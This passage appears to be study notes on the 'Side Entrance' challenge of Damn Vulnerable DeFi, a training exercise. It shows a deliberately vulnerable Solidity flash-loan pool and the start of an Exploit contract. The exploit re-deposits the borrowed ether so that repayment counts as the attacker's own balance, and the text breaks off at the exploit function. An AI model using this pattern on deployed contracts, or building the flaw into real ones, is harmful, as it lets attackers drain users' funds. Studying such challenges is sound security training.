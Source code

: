 ## Damn Vulnerable DeFi (Foundry): Side Entrance
Link: https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/side-entrance

### Contracts
- `src/Week8-9/SideEntranceLenderPool.sol`
```
import {Address} from "@openzeppelin/contracts/utils/Address.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping(address => uint256) private balances;

    error NotEnoughETHInPool();
    error FlashLoanHasNotBeenPaidBack();

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        if (balanceBefore < amount) revert NotEnoughETHInPool();

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore) {
            revert FlashLoanHasNotBeenPaidBack();
        }
    }
}

contract Exploit is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;

    constructor(SideEntranceLenderPool _pool) {
        pool = _pool;
    }

    receive() external payable {}

    //flashLoan calls `execute`, which we can use to "deposit" the loan
    //amount back into the pool, under disguise of a regular deposit.
    function execute() external payable override {
        pool.deposit{value: msg.value}();
    }

    function exploit() public {
```